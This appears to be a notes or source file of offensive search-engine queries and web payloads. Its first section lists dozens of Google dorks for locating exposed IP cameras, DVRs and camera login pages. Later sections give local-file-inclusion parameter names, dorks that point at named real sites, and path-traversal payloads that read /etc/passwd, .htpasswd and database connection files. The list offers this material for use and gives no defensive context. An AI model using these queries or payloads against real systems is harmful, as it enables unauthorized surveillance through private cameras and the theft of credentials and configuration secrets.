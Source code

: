 # camera

inurl:"view/index.shtml"
inurl:"MultiCameraFrame?Mode=Motion"
VB Viewer inurl:/viewer/live/ja/live.html
intitle:"IP CAMERA Viewer" intext:"setting | Client setting"
intitle:"Device(" AND intext:"Network Camera" AND "language:" AND "Password"
intitle:"webcam 7" inurl:'/gallery.html'
intitle:"Yawcam" inurl:8081
inurl:control/camerainfo
intitle:"webcamXP 5" -download
inurl:"/view/view.shtml?id="
inurl:/view/viewer_index.shtml
intext:"powered by webcamXP 5"
intitle:webcam 7 inurl:8080 -intext:8080
intitle:"Live View / - AXIS" | inurl:view/view.shtml OR inurl:view/indexFrame.shtml | intitle:"MJPG Live Demo" | "intext:Select preset position"
allintitle: Axis 2.10 OR 2.12 OR 2.30 OR 2.31 OR 2.32 OR 2.33 OR 2.34 OR 2.40 OR 2.42 OR 2.43 "Network Camera "
allintitle:Edr1680 remote viewer
allintitle: EverFocus | EDSR | EDSR400 Applet
allintitle: EDR1600 login | Welcome
intitle:"BlueNet Video Viewer"
intitle:"SNC-RZ30" -demo
inurl:cgi-bin/guestimage.html
(intitle:(EyeSpyFX|OptiCamFX) "go to camera")|(inurl:servlet/DetectBrowser)
intitle:"Veo Observer XT" -inurl:shtml|pl|php|htm|asp|aspx|pdf|cfm -intext:observer
intitle:"iGuard Fingerprint Security System"
(intitle:MOBOTIX intitle:PDAS) | (intitle:MOBOTIX intitle:Seiten) | (inurl:/pda/index.html +camera)
intitle:"Edr1680 remote viewer"
intitle:"NetCam Live Image" -.edu -.gov -johnny.ihackstuff.com
intitle:"INTELLINET" intitle:"IP Camera Homepage"
intitle:"WEBDVR" -inurl:product -inurl:demo
intitle:"Middle frame of Videoconference Management System" ext:htm
tilt intitle:"Live View / - AXIS" | inurl:view/view.shtml
intitle:"AXIS 240 Camera Server" intext:"server push" -help
intitle:"--- VIDEO WEB SERVER ---" intext:"Video Web Server" "Any time & Any where" username password
intitle:HomeSeer.Web.Control | Home.Status.Events.Log
inurl:camctrl.cgi
intitle:"supervisioncam protocol"
intitle:"active webcam page"

# local file inclusion

site:researchforaction.org and "download"
inurl:"index.php?page="  lars-seeberg

# LFE

?cat=
?dir=
?action=
?date=
?detail=
?file=
?download=
?path=
?folder=
?prefix=
?include=
?page=
?locate=
?doc=
?site=
?view=
?content=
?document=
?layout=

https://example.com/?helpfile=login.txt
?file=….//….//etc/passwd
?file=..///////..////..//////etc/passwd
?file=..///////..////..//////etc/passwd
https://example.com/?helpfile=../secret/.htpasswd
https://example.com/?download=../include/connection.php

